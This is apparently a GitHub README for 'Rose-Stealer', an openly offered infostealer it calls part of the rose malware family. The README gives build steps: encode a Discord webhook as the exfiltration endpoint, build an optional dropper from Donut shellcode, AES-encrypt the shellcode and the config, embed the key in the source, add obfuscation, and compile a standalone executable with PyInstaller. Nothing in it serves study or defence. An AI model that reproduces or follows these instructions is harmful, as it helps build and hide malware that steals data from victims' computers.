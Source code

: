 # 🐍 Rose-Stealer
## Rewritten version of the rose malware family.

> [!CAUTION]
> If you don't trust it, read the source.

> [!IMPORTANT]
> This is a small rewritten version for the rose implant.
> I don't provide support for this. You should know what you're doing.

## Requirements
- [Python 3.10+](https://python.org/downloads)
- Python-Libs installed (`pip install -r assets\requirements.txt`)

## Setup
#### [Download](https://github.com/0xRose/Rose-Stealer/archive/refs/heads/main.zip) the source code of this repository.
- Encode your Discord Webhook: `python utils\b85_encode.py DISCORD_WEBHOOK`
  - Place the output in the config.ini file
  ```ini
  [main]
  # base 85 encoded and hexified discord webhook
  discord_webhook=DISCORD_WEBHOOK <--- Put the encoded webhook here
  ```
- File dropper if wanted:
  - generate shellcode with [Donut](https://github.com/TheWover/donut) for an executable file to e.g. `shellc.dat`
  - AES encrypt the shellcode file:
    - `python utils\aes_encrypt.py client\shellc.dat client\shellc.aes`
    - Copy the output key into your config.ini file like this:
    ```ini
    [shellcode_loader]
    # file path storing AES encrypted and compressed shellcode
    shellcode_file_name=shellc.aes
    # hexified 32 byte (128-bit AES key)
    shellcode_key=AES_KEY <--- Put the AES key here
    ```
- Now encrypt the config file:
  - `python utils\aes_encrypt.py client\config.ini client\config.aes`
  - Put the output key you received into the [malware source code](https://github.com/0xRose/Rose-Stealer/blob/main/client/main.py) on line 380:
    ```py
    key = "AES_KEY"  # hexified 32 byte key (128-bit)  <--- Put the AES key here
    ```
(Additionally i would recommend to add obfuscation on the script now.)
- You can now compile it into a binary: `pyinstaller --clean --onefile --add-data "client\shellc.aes;." --add-data "client\config.aes;." --hidden-import cryptography --hidden-import pywin32 --hidden-import pillow --hidden-import aiohttp client\main.py`

**Yippie! Your executable is now inside of the `dist` folder.**
